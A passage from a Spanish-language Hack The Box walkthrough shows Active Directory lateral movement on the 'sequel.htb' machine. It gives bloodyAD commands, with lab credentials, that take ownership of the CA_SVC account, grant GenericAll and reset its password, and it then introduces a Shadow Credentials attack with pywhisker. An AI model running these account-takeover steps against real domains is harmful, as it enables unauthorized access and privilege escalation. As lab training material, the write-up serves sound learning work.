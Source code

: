 investigando, ese permiso nos permite hacernos propietarios de la cuenta de ese usuario, para modificar permisos y darnos control total  y asi resetear su contraseña e iniciar sesión como ese usuario

por que no atacar directamente al administrador? porque bloodhound no me da pistas sobre alguna conexión, además muchas veces en las maquinas de hack the box, se tienen este tipo de movimientos laterales, posiblemente dentro de este usuario encontraremos algo mas para escalar a Administrator

vamos a reactivar el entorno de desarrollo python con:
```bash
source 3vil/bin/activate
```

vamos a instalar la herramienta:
```bash
pip3 install bloodAD
```

la usaremos asi:
```bash
bloodyAD --host 10.129.26.148 -d sequel.htb -u ryan -p WqSZAF6CysDQbGb3 set owner CA_SVC RYAN

```
nos dira:
```
[+] Old owner S-1-5-21-548670397-972687484-3496335370-512 is now replaced by RYAN on CA_SVC
```

ahora, para darnos el control total:
```bash
bloodyAD --host 10.129.26.148 -d sequel.htb -u ryan -p WqSZAF6CysDQbGb3 add genericAll CA_SVC RYAN
```

nos dira:
```
[+] RYAN has now GenericAll on CA_SVC
```

si no lo cambia, hazlo de nuevo, recuerda que las maquinas tienen scripts para deshacer algunas configuraciones o cargas maliciosas

y le cambiaremos su contraseña:
```bash
bloodyAD --host 10.129.26.148 -d sequel.htb -u ryan -p WqSZAF6CysDQbGb3 set password CA_SVC 3vilsec
```
***[+] Password changed successfully!***

pero al intentar ver si las credenciales realmente han cambiado con crackmapexec o netexec el resultado es negativo no se cambia la contraseña

podría intentar una técnica conocida como **Shadow Credentials**:
dado que podemos manipular totalmente al usuario ca_svc, vamos a intentar manipular el atributo *msDS-KeyCredentialLink* que almacena datos en bruto para la autenticación sin contraseña

para esto, necesitamos una herramienta llamada pywhisker:
https://github.com/ShutdownRepo/pywhisker
```bash
git clone https://github.com/ShutdownRepo/pywhisker
cd pywhisker
pip3 install .
```
